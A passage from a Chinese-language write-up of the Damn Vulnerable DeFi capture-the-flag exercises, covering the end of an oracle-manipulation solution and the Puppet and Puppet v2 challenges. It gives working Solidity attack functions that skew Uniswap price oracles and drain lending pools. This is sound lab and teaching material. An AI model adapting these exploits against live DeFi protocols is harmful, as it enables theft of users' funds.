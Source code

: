     //approve 1 DVNFT transferFrom and sell it
    let sigToken = this.nftToken.connect(attacker);
    await sigToken.approve(sigExchange.address, tokenId);
    await sigExchange.sellOne(tokenId);
    
    //change balance to  initial price
    for (let i = 0; i < 2; i++) {
    await sigOracle[i].postPrice("DVNFT",INITIAL_NFT_PRICE);
    }
    });
    await tx.wait(2);

### 8.Puppet

该挑战的目标是抽干借贷池里的10万个DVT。

该借贷池依赖于一个非常容易攻击的价格预言机机制。该价格预言机基于uniswap V1池子中ETH和DVT存量，并以$2*\frac{ETH}{DVT}$作为DVT的借贷价格，因此我向uniswap发起swap交易，将池中的ETH和DVT分别变为0.1和1000枚，这样借贷池中DVT的价格就变成了2ETH/万枚，调用借贷池的borrow函数即可用20ETH将10万个DVT抽干。

    function attack() external payable{
        uint256 dvtAmount = dvt.balanceOf(address(this));
        dvt.approve(address(uniswap),dvtAmount);
        uniswap.tokenToEthSwapOutput(9.9 ether,dvtAmount,block.timestamp + 1000000);
        uint256 poolAmount = dvt.balanceOf(address(pool));
        pool.borrow{value:25 ether}(poolAmount);
        dvtAmount = dvt.balanceOf(address(this));
        dvt.transfer(msg.sender,dvtAmount);
    }

### 9.Puppet v2

该挑战和8类似，抽干新的借贷池的100万个DVT。

新的合约采用uniswap V2池子作为价格预言机，并使用了uniswap v2的libary！但是细看library的计价方式仍是换汤不换药，和8一样都是以池中的WETH和DVT存量做计算，并且并以$3*\frac{WETH}{DVT}$作为DVT的借贷价格。因此我们可以采用和8一样的方式，通过router把所有DVT兑换成WETH用以价格预言机操纵，并且在留下少数gas费后把ETH全换成WETH，并拿这些WETH去借贷池中借出所有DVT，即可完成挑战。

    function attack() external payable {
        uint256 dvtAmount = dvt.balanceOf(address(this));
        dvt.approve(address(router), dvtAmount);
        address[] memory paths= new address[](2);
        paths[0] = address(dvt);
        paths[1] = address(weth);
        router.swapExactTokensForTokens(dvtAmount, 0, paths, address(this), block.timestamp + 1000000);
        weth.deposit{value : 19.8 ether}();
        uint256 wethAmount = weth.balanceOf(address(this));
        weth.approve(address(pool), wethAmount);
        uint256 poolAmount = dvt.balanceOf(address(pool));
        pool.borrow(poolAmount);
        dvtAmount = dvt.balanceOf(address(this));
        dvt.transfer(msg.sender, dvtAmount);
    }

### 10.Free rider
